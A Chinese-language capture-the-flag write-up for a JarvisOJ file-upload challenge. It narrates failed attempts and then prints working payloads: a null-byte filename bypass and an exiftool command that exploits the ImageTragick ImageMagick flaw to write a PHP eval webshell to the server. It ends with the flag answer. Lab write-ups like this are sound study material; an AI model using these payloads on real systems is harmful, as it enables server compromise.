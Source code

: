 ## 描述

请设法获取/home/ctf/flag.txt 中的flag值。

(建议使用png文件上传)

题目入口：http://web.jarvisoj.com:32790/

## 题解

```html
<html>
<body>
<h1>upload image</h1>
<form action="upload.php?path=uploads&filesize=100&filetype=" method="post" enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="file" id="file" /> 
<br />
<input type="submit" name="submit" value="Submit" />
</form>

</body>
</html>
```

headers 没啥奇怪的。

上传题应该就是上传马吧。

直接将 [Chopper](./Chopper.md) 那题的一句话马上传试试。得到

```
Upload: yjh.php.jpg
Size: 0.2939453125 Kb
Temp file: /opt/lampp/temp/phpiDOWsp
Invalid file
```

将马改成 `<script language='php'>` 的版本也是一样的结果。

可能不能直接命名，得插到图片后面。随便弄张图片将马加到后面然后上传。

传是传上去了，但是得想办法让它执行。更改了一下 `upload.php?` 后面的参数，没用。

抓包尝试了几次后，没得进展。

用御剑扫了下，没得新发现。

题目提示让我们上传 png，试试截断文件名

```
Upload: ma.php%00.png
Size: 23.515625 Kb
Temp file: /opt/lampp/temp/phpVsGtaA
Stored in: uploads/1564802946.png
```

可是发现它还是会重命名的，所以失败。

网上搜了一些上传文件的各种姿势，找到一篇不错的文章 https://thief.one/2016/09/22/上传木马姿势汇总-欢迎补充/

但是文件重命名，似乎根本没办法啊。。。。我还是看题解吧。

TMD，好像我的御剑有点垃圾啊，`test.php` 都扫不出来？？？？日

网上找一些好的扫描工具吧

* [SourceLeakHacker](https://github.com/WangYihang/SourceLeakHacker)
* [dirmap](https://github.com/H4ckForJob/dirmap)

用 `dirmap` 只能扫到 `index.html` 和 `upload.php`。。。。感觉其实也不是那么给力啊。。

好吧，我自己从网上收集了一堆字典，然后写了个 python 过滤了一下，得到了份不错的。

不管了，先做题。就算给我这个 `phpinfo()` 我仍然发现不了啥毛病，只能看题解。

题解说 `ImageMagick` 有漏洞。。。。不得不佩服。。orz

这个洞可以在 https://imagetragick.com/ 这里找到。

简单来说就是支持以下文件

```
<policymap>
  <policy domain="coder" rights="none" pattern="EPHEMERAL" />
  <policy domain="coder" rights="none" pattern="URL" />
  <policy domain="coder" rights="none" pattern="HTTPS" />
  <policy domain="coder" rights="none" pattern="MVG" />
  <policy domain="coder" rights="none" pattern="MSL" />
  <policy domain="coder" rights="none" pattern="TEXT" />
  <policy domain="coder" rights="none" pattern="SHOW" />
  <policy domain="coder" rights="none" pattern="WIN" />
  <policy domain="coder" rights="none" pattern="PLT" />
</policymap>
```

用 ImageMagick 做转换的时候（比如转换成 png）会调用 `wget` 和 `curl` 处理图片内部的 URL，而调用的参数存在漏洞，可以在这些 URL 后加上 `"| cmd"` 来执行系统命令（其中 `cmd` 为命令）。

然后经过研究，`png` 格式的图片也能触发，只需加上述文件到一个正常 png 图片后即可。具体看 https://www.2cto.com/article/201605/505823.html ，用以下命令即可

```
exiftool -label="\"| cmd;\"" hack.png
```

在本题里，我们直接写入一个一句话木马就行。

```
exiftool -label="\"| /bin/echo \<?php \@eval\(\_POST[gg]\)\;?\> > /opt/lampp/htdocs/uploads/ggmf.php;\"" hack.png
```

上传的时候将 `filetype` 改成上述所说的其中一个类型的文件即可。

PS：本题被某个傻逼上传了删除脚本，循环删除 `php` 文件，所以一直访问不到自己保存的 `php` 文件。抄答案算了。

## 答案

CTF{873dfee87823248f4a1657650204697a}
